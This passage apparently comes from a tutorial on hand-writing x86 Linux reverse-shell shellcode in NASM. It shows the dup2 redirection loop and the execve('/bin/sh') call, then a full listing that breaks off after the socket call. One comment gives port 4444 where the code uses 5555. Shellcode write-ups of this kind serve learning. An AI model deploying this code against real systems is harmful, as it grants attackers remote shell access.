 This part of the code will use dup2 to redirect the STDIN, STDOUT and STDERR into the socket:
```nasm
;for (int i = 0; i < 3; i++)
;{
;    dup2(connfd, i);
;}

xor ecx, ecx
mov cl, 3
boucle:
    xor eax, eax
    mov al, 0x3f    ;dup system call number
    mov ebx, esi    ;mov the fd variable in ebx
    dec cl          ;dec to cl 1
    int 0x80        ;go for it
    inc cl          ;inc to cl 1
    loop boucle
```

It's finaly the time to execute the shell:
```nasm
;execve("/bin/sh", 0, 0);

xor eax, eax
push eax            ;push a NULL byte
push 0x68732f2f     ;push /bin//sh
push 0x6e69622f     ;push /bin//sh
mov ebx, esp        ;mov the adress of "/bin//sh" in ebx
xor ecx, ecx        ;initialize ecx to NULL
xor edx, edx        ;initialize edx to NULL
mov al, 0xb         ;system call number for execve
int 0x80            ;go for it
```

You can find the whole code below:
```nasm
;Simple ASM (x86) reverse shell for 127.1.1.1 on port 5555
global _start

_start:
;set the frame pointer
mov ebp, esp

;initialize registers to NULL
xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx

;struct sockaddr_in struct
;addr.sin_family = AF_INET;
;addr.sin_port = htons(4444);
;addr.sin_addr.s_addr = inet_addr("127.1.1.1");
push eax
push eax            ;padding for sin_zero sockaddr_in struct
push 0x0101017f     ;initialize ip address to 127.1.1.1 
push word 0xb315    ;port number initialize to 5555
push word 0x02      ;network family initialize for IPv4

;s = socket(AF_INET, SOCK_STREAM, 0);
mov ax, 0x167       ;system call number for socket
mov bl, 0x02        ;IPv4 family adress
mov cl, 0x01        ;TCP socket
int 0x80            ;go for it
mov esi, eax        ;move return value (file descriptor) into esi
```